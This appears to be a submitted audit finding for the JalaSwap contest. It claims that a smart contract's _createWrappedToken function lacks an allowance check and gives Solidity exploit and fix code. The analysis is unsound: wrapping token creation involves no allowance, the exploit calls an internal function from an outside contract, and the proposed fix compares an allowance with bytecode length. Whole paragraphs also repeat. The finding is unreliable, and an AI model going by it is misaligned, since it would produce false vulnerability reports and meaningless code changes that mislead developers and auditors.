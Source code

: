 Uneven Licorice Pelican

high

# Unauthorized Token Spending Due to Missing Allowance Check in Token Wrapping Function

## Summary
The provided **_createWrappedToken** function in the smart contract fails to check and update the spender's allowance of the underlying ERC20 token during the wrapping process. This oversight could allow a spender to wrap and spend more tokens than their allowance permits, leading to unauthorized use of funds. Without proper allowance verification and updating, there is a potential for direct theft of user funds, as spenders could exceed their authorized limits, posing a severe security risk. 
## Vulnerability Detail
The root cause of the vulnerability in the code is that the function **_createWrappedToken** does not include a check to ensure that the caller has the necessary allowance to spend the underlying token before wrapping it into a new token. This means that anyone can call this function to create a wrapped token without having the required allowance, leading to unauthorized token spending.

The vulnerability in the code is that there is no allowance check in the **_createWrappedToken** function before wrapping the underlying token. This means that anyone can call this function and wrap any token without having the necessary allowance to spend the underlying token.

Proof of Concept (PoC) code:

1. Deploy the vulnerable smart contract:

```solidity
pragma solidity ^0.8.0;

contract ChilizWrappedERC20 {
    function initialize(address _token) external {
        // initialization code
    }
}

contract TokenWrapper {
    mapping(address => address) public underlyingToWrapped;
    mapping(address => address) public wrappedToUnderlying;

    event WrappedTokenCreated(address indexed underlyingToken, address indexed wrappedToken);

    function _createWrappedToken(address underlyingToken) internal returns (address wrappedToken) {
        bytes memory bytecode = type(ChilizWrappedERC20).creationCode;
        bytes32 salt = keccak256(abi.encode(underlyingToken));
        assembly {
            wrappedToken := create2(0, add(bytecode, 32), mload(bytecode), salt)
        }
        ChilizWrappedERC20(wrappedToken).initialize(underlyingToken);

        underlyingToWrapped[underlyingToken] = address(wrappedToken);
        wrappedToUnderlying[address(wrappedToken)] = underlyingToken;

        emit WrappedTokenCreated(underlyingToken, wrappedToken);
    }
}
```
2. Exploit the vulnerability by wrapping a token without having the necessary allowance:

```solidity
pragma solidity ^0.8.0;

interface IERC20 {
    function approve(address spender, uint256 amount) external returns (bool);
}

contract Exploit {
    TokenWrapper public tokenWrapper;
    address public underlyingToken = address(0x123); // Address of the token to be wrapped

    constructor(address _tokenWrapper) {
        tokenWrapper = TokenWrapper(_tokenWrapper);
    }

    function exploit() public {
        // Call _createWrappedToken without approving the underlying token
        tokenWrapper._createWrappedToken(underlyingToken);
    }
}
```
By calling the exploit function in the Exploit contract, an attacker can wrap any token without having the necessary allowance to spend the underlying token, exploiting the vulnerability in the smart contract.

## Impact
The impact of this vulnerability could be the unwarranted spending of token owner's assets without decrementing the spender's allowance, which should be considered a high severity issue.
## Code Snippet
https://github.com/sherlock-audit/2024-02-jala-swap/blob/main/jalaswap-dex-contract/contracts/utils/ChilizWrapperFactory.sol#L34-L46
## Tool used

Manual Review

## Recommendation
The vulnerability in the code is that there is no allowance check in the **_createWrappedToken** function before wrapping the token. This means that anyone can call this function and wrap any token without having the necessary allowance to spend the underlying token.

To fix this issue, we need to add an allowance check before wrapping the token. We can modify the **_createWrappedToken** function as follows:

```solidity
34       function _createWrappedToken(address underlyingToken) internal returns (address wrappedToken) {
35           require(IERC20(underlyingToken).allowance(msg.sender, address(this)) >= type(ChilizWrappedERC20).creationCode.length, "Not enough allowance");
36           bytes memory bytecode = type(ChilizWrappedERC20).creationCode;
37           bytes32 salt = keccak256(abi.encode(underlyingToken));
38           assembly {
39               wrappedToken := create2(0, add(bytecode, 32), mload(bytecode), salt)
40           }
41           ChilizWrappedERC20(wrappedToken).initialize(IERC20(underlyingToken));
42   
43           underlyingToWrapped[underlyingToken] = address(wrappedToken);
44           wrappedToUnderlying[address(wrappedToken)] = underlyingToken;
45   
46           emit WrappedTokenCreated(underlyingToken, wrappedToken);
47       }
```
In the modified code, we added a **require** statement on line 35 to check if the caller has enough allowance to spend the underlying token before proceeding with the token wrapping process. This ensures that only authorized users can wrap tokens.

By adding this allowance check, we have fixed the vulnerability and made the token wrapping function more secure.
